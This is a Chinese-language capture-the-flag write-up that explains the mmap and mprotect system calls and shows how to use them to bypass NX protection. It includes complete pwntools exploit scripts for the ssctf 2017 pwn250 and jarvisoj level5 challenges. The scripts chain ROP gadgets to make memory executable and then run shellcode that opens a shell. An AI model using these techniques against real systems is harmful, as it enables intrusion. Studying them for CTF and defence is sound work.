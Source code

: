 # mmap

mmap函数的用法


```
mmap将一个文档或者其它对象映射进内存。文档被映射到多个页上，如果文档的大小不是所有页的大小之和，最后一个页不被使用的空间将会清零。mmap在用户空间映射调用系统中作用很大。
头文档 <sys/mman.h>

void* mmap(void* start,size_t length,int prot,int flags,int fd,off_t offset);
第一个参数：分配新内存的地址
第二个参数：新内存的长度（0x1000的倍数），长度单位是字节，不足一内存页按一内存页处理
第三个参数：期望的内存保护标志，不能与文档的打开模式冲突。
			PROT_EXEC（可执行）在内存中用4来表示
			PROT_READ（可读）在内存中用1来表示
			PROT_WRITE（可写）在内存中用2来表示
			PROT_NONE（不可访问）在内存中用0来表示
第四个参数：映射的类型
			MAP_FIXED（）在内存中用10来表示
			MAP_SHARED（）在内存中用1来表示
			MAP_PRIVATE（）在内存中用2来表示
			MAP_NORESERVE（）在内存中用4000来表示
			MAP_LOCKED（）在内存中用2000来表示
第五个参数：文档描述符，可设为0
第六个参数：如果为文档映射，则此处代表定位到文档的那个位置，然后开始向后映射。

函数返回值：
	若该函数执行成功，mmap()返回被映射区的指针，失败时返回MAP_FAILED（-1）
```

在nx保护开启的情况下，我们依然可以通过mmap来申请出一段有读写执行权限的内存，通常mmap(target_addr,0x1000,7,34,0,0)，这里target_addr需要页对齐也就是0x1000的整数倍，若不对齐，申请到的起始地址将不是target_addr。

写个简单的程序验证一下，可以看到申请到的内存具有rwx权限，并且函数返回值为mmap到的内存的起始地址。

```c
#include<stdio.h>
#include <sys/mman.h>
int main(){
	void *addr;
	addr = 0xdead1000;
	mmap(addr,0x1000,7,34,0,0);
	return 0;
}
```



![](1.png)

通过一道例题再操练一下

https://github.com/gloxec/record/blob/master/ssctf_2017/pwn250

基本信息：静态链接、32位、nx开启

![](4.png)

print中memcpy导致栈溢出

![](2.png)

![](3.png)

思路：调用mmap申请一块有rwx权限的内存，往里面写shellcode，最终返回到shellcode上

exp

```python
from pwn import*
context.log_level = 'debug'
context.binary = './pwn250'
p = process('./pwn250')
elf = ELF('./pwn250')
mmap_addr = elf.sym['mmap']
main_addr = elf.sym['main']
read_addr = elf.sym['read']
newaddr=0xbeef1000

p.sendlineafter(']',str(0x100))
payload = 'a'*(58+4)+p32(mmap_addr)+p32(main_addr)+p32(newaddr)+p32(1024)+p32(7)+p32(34)+p32(0)+p32(0)
p.sendafter(']',payload)

p.sendlineafter(']',str(0x100))
payload = 'a'*(58+4)+p32(read_addr)+p32(newaddr)+p32(0)+p32(newaddr)+p32(0x100)
p.sendafter(']',payload)

#gdb.attach(p,'b print')
shellcode = asm(shellcraft.sh())
p.sendline(shellcode)

p.interactive()
```

# mprotect

函数原型

```
#include <sys/mman.h>
int mprotect(void *addr, size_t len, int prot)

mprotect()函数把自start开始的、长度为len的内存区的保护属性修改为prot指定的值。 

第一个参数：开始地址（该地址应是0x1000的倍数，以页方式对齐）
第二个参数：指定长度（长度也应该是0x1000的倍数）
第三个参数：指定属性

如果执行成功，则返回0；如果执行失败，则返回-1，并且设置errno变量，说明具体因为什么原因造成调用失败。错误的原因主要有以下几个：
1）EACCES
该内存不能设置为相应权限。这是可能发生的，比如，如果你 mmap(2) 映射一个文件为只读的，接着使用 mprotect() 标志为 PROT_WRITE。

2）EINVAL
start 不是一个有效的指针，指向的不是某个内存页的开头。

3）ENOMEM
内核内部的结构体无法分配。

4）ENOMEM
进程的地址空间在区间 [start, start+len] 范围内是无效，或者有一个或多个内存页没有映射。 

如果调用进程内存访问行为侵犯了这些设置的保护属性，内核会为该进程产生 SIGSEGV （Segmentation fault，段错误）信号，并且终止该进程。

```




写个简单的程序验证一下，可以看到的原本不是rwx权限的页具有了rwx权限

```c
#include<stdio.h>
#include <sys/mman.h>
int main(){
	void *addr;
	addr = 0x00400000;
	mprotect(addr,0x1000,7);
	return 0;
}
```

![](5.png)



下面用mprotect来做刚刚那道题目

思路，把bss段的权限用mprotect改为rwx，把shellcode写到bss段上再返回到shellocde上。

```python
from pwn import*
context.log_level = 'debug'
context.binary = './pwn250'
p = process('./pwn250')
elf = ELF('./pwn250')
mprotect_addr = elf.sym['mprotect']
main_addr = elf.sym['main']
read_addr = elf.sym['read']
bss_addr = 0x080ec000


p.sendlineafter(']',str(0x100))
payload = 'a'*(58+4)+p32(mprotect_addr)+p32(main_addr)+p32(bss_addr)+p32(0x1000)+p32(7)
p.sendafter(']',payload)

p.sendlineafter(']',str(0x100))
payload = 'a'*(58+4)+p32(read_addr)+p32(bss_addr)+p32(0)+p32(bss_addr)+p32(0x100)
p.sendafter(']',payload)

#gdb.attach(p,'b print')
shellcode = asm(shellcraft.sh())
p.sendline(shellcode)

p.interactive()
```



再穿插一道例题**jarvisoj level5**

动态链接，64位栈溢出，题目描述是不能执行system或execve，那么我们用mprotect来做

![](6.png)

exp

```python
from pwn import*
context.log_level = 'debug'
context.arch = 'amd64'
def pr(a,addr):
	log.success(a+'====>'+hex(addr))

def csu_payload(got_addr,arg1,arg2,arg3,ret_addr):
	payload = 'a'*0x88
	payload += p64(0x4006AA)
	payload += p64(0)+p64(1)+p64(got_addr)+p64(arg3)+p64(arg2)+p64(arg1)
	payload += p64(0x400690)+'a'*56 + p64(ret_addr)
	return payload
def ropchain(target,arg1,arg2,arg3,ret_addr):
	payload = 'a'*0x88
	payload +=p64(prdi_ret)+p64(arg1)
	payload +=p64(prsi_ret)+p64(arg2)
	payload +=p64(prdx_ret)+p64(arg3)
	payload +=p64(target)+p64(ret_addr)
	return payload
p =process('./level3_x64')
elf = ELF('./level3_x64')
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')

prdi_ret = 0x4006B3
prsi_ret = 0x23eea
prdx_ret = 0x1b96
write_got = elf.got['write']
write_plt = elf.plt['write']
read_got = elf.got['read']
vuln = elf.sym['vulnerable_function']
bss = 0x600000+0xb00

payload = csu_payload(write_got,1,write_got,8,vuln)
p.sendafter('Input:\n',payload)

libcbase = u64(p.recv(8)) - libc.sym['write']
mprotect = libcbase + libc.sym['mprotect']
prsi_ret += libcbase
prdx_ret += libcbase 
pr('libcbase',libcbase)

#gdb.attach(p,'b *0x400618')
payload = ropchain(mprotect,0x600000,0x1000,7,vuln)
p.sendafter('Input:\n',payload)

payload = csu_payload(read_got,0,bss,0x200,bss)
p.sendafter('Input:\n',payload)


shellcode = asm(shellcraft.sh())
p.send(shellcode)

p.interactive()


```

本来想用mmap试试，发现r9相关的rop有点难利用也懒得试了，老懒狗了。

![](7.png)

![](8.png)

参考文章

https://www.dazhuanlan.com/2019/12/05/5de804217ca51/

https://blog.csdn.net/roland_sun/article/details/33728955